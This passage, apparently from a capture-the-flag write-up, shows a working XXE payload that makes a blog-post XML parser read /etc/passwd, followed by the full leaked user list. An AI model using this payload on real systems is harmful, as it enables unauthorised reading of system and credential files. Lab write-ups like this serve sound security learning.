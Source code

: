 After trying different payloads, this one works:

````
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<xml>
	<Author>Cooper</Author>
	<Subject>Subject</Subject>
	<Content>&xxe;</Content>
</xml>
````

With the result: 

````
PROCESSED BLOGPOST: 
  Author: Cooper
 Subject: Subject
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
````
